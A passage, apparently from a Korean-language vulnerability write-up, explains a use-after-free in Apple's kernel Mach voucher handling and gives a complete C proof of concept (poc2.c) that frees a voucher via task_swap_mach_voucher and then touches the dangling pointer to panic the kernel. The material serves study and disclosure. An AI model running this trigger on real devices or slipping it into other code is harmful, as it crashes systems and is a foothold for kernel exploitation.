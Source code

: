 여기서 task_swap_mach_voucher 함수를 통해 p1의 ref 카운트를 감소 시킬 수 있기 때문에 
p3와 스왑한 이후로는 voucher를 free시켜버리게된다.

마찬가지로 해제된 바우처의 메모리에 대한 댕글링 포인터(dangling pointer)가 `ith_voucher`에 남게 되며, 
이후 `thread_get_mach_voucher()` 호출을 통해 이 포인터에 접근하면 커널 패닉이 발생한다.

- poc2.c

```c
#include <assert.h>
#include <mach/mach.h>
#include <stdio.h>
#include <unistd.h>

int
main(int argc, const char *argv[]) {
	mach_voucher_attr_recipe_data_t atm_data = 
    {
            .key = MACH_VOUCHER_ATTR_KEY_ATM, //1
            .command = 510
    };

    mach_port_t p1;
    kern_return_t ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p1);

    mach_port_t p2;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p2);

    mach_port_t p3;
    ret = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&atm_data, sizeof(atm_data), &p3);

    /* 
            We assign p1 (our target voucher) onto our thread so it can be accessed again later.
            When we later try to retreive it 
            This will increment a ref on the voucher -- the current refcount is 2 
    */
    ret = thread_set_mach_voucher(mach_thread_self(), p1);

    ret = task_swap_mach_voucher(mach_task_self(), p1, &p2); // Trigger the bug once, this drops a ref from 2 to 1 

    ret = task_swap_mach_voucher(mach_task_self(), p1, &p3); // Second trigger, this frees the voucher (refcnt=0)

    /* Ask for a handle on the danging voucher, 9 times out of 10 this will cause a panic due to the bad refcnt etc */ 
    mach_port_t real_port_to_fake_voucher = MACH_PORT_NULL;
    ret = thread_get_mach_voucher(mach_thread_self(), 0, &real_port_to_fake_voucher);
}
```
